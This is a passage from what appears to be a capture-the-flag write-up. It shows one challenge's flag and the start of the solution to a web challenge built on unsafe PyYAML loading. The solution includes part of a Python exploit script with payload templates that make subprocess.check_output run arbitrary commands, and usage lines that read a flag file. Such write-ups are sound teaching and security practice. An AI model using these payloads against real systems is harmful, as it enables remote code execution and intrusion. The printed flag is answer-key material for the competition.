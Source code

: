 ![](assets/img/siber-siaga-25/image11.png)

>Flag: `SIBER25{l3arn1ng_m4ch1n3_l3arn1ng}`
{: .prompt-tip}

## Challenge 9: Bulk Import Blues (web)

*Solved by: Jerit3787*

**Description:**

Acme’s internal inventory tool lets staff bulk import product data and check stock. I’m sure i made it secured but did i miss out anything?

Flag format: SIBER25{flag}

Challenge Creator: @jin_707

**Solution:**
The website allows users to enter user’s YAML scripts. Under the hood, the `/process` tag is allowing user’s input to be rendered immediately without sanitisation.

Script used:

```py
#!/usr/bin/env python3
"""
exploit_yaml_rce.py


Usage:
   python3 exploit_yaml_rce.py --url http://localhost:5000/process
   python3 exploit_yaml_rce.py --url http://10.10.10.5:5000/process --flag /flag.txt
   python3 exploit_yaml_rce.py --url http://target:5000/process --cmd "id"


Note: This targets an app using unsafe yaml.load (PyYAML). Use only on systems you own / are authorized to test.
"""
import argparse
import requests
import sys


DEFAULT_URL = "http://127.0.0.1:5001/process"
DEFAULT_FLAG = "/flag.txt"


PAYLOAD_TEMPLATE_CHECK_OUTPUT = """!!python/object/apply:subprocess.check_output [["{cmd}"]]
"""
# For multi-arg commands (preferred), use list form:
PAYLOAD_TEMPLATE_CHECK_OUTPUT_ARGS = """!!python/object/apply:subprocess.check_output [["{prog}", {args}]]
"""
```